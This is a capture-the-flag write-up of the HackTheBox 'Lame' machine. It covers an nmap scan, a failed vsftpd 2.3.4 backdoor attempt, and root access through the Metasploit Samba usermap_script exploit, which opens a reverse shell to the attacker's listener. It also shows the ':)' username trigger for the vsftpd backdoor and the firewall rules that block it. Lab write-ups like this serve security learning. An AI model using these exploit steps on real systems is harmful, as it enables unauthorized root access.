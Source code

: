 ```yaml
---
layout: post
title: "Lame"
date: 2025-04-20 
categories: ctf
---
```


# Attack Path

Fist let’s scant he network:

```bash
sudo nmap -sC -sV 10.10.10.3

result:
21/tcp   open  ftp         vsftpd 2.3.4
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.16.59
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h00m32s, deviation: 2h49m47s, median: 28s
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery:
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name:
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2025-04-13T14:32:11-04:00

```

We notice the service vsftpd 2.3.4 used, and there is a famous exploit on metasploit for this version. Let’s search it up in metasploit:

```bash
msfconsole
search vsftpd_234_backdoor
use exploit/unix/ftp/vsftpd_234_backdoor
info

```

It seems we can add a backdoor and send commands using this exploit. Let’s input the RHOSTS and RPORT:

```bash
set RHOSTS 10.10.10.3
run
```

But the exploit does not seem to work.

The samba version is 3.0.20 and it has a known CVE: [**CVE-2007-2447**](https://nvd.nist.gov/vuln/detail/CVE-2007-2447)

Let’s try and exploit this:

```bash
use exploit/multi/samba/usermap_script
set LHOST 10.10.16.59
set RHOST 10.10.10.3
run

result:
[*] Started reverse TCP handler on 10.10.16.59:4444 
[*] Command shell session 1 opened (10.10.16.59:4444 -> 10.10.10.3:34474) at 2025-04-13 19:48:47 +0100

whoami
root

```

Now that we are root, we can see why our ftp backdoor exploit did not work. First let’s check the listening ports on the device:

```bash
netstat -lntp

#we hava a bunch of open ports
```

Let’s see what happens when we trigger the ftp exploit;

The VSFTPd 2.3.4 backdoor is a malicious feature intentionally added to the source code of the VSFTPd (Very Secure FTP Daemon) version 2.3.4, a popular FTP server software. Here's a clear explanation:

### What Happened?

- **When**: Between June 30 and July 1, 2011, an unknown attacker compromised the official VSFTPd download server and uploaded a modified version of the vsftpd-2.3.4.tar.gz archive.
- **What**: The modified code contained a backdoor, which was not part of the legitimate software. This backdoor allowed unauthorized access to systems running the compromised version.
- **Discovery and Fix**: The backdoor was identified and removed by July 3, 2011, and the VSFTPd site was later moved to a more secure platform (Google App Engine) to prevent further tampering.

### How the Backdoor Works

- **Trigger**: The backdoor is activated when a user connects to the FTP server (port 21) and enters a username containing the string ":)" (a smiley face). For example, a username like "test:)" would work.
- **Effect**: Upon receiving this specific input, the server executes a function called vsf_sysutil_extra(), which opens a shell on port 6200 of the target system.
- **Access**: An attacker can then connect to port 6200 using a tool like telnet or netcat (e.g., nc <target_ip> 6200) and gain a command shell with root privileges, as VSFTPd often runs as root.

```bash
#On another terminal
nc 10.10.10.3 21
USER test:)

#now back on the pwned root
netstat -lntp

result:
tcp        0      0 0.0.0.0:6200            0.0.0.0:*               LISTEN      7375/vsftpd
```

We can see the port is now opened, therefore, there must be a firewall dropping our packets. Let’s check the firewall:

```bash
iptables -L
```

These iptables rules allow FTP traffic on port 21 (necessary for VSFTPd to function) but block all other incoming traffic by default, including port 6200, which the VSFTPd 2.3.4 backdoor uses. By dropping connections to port 6200, the firewall prevents attackers from accessing the backdoor’s shell, effectively neutralizing the exploit. The rules are solid, but tightening FTP access or adding logging could make them even better.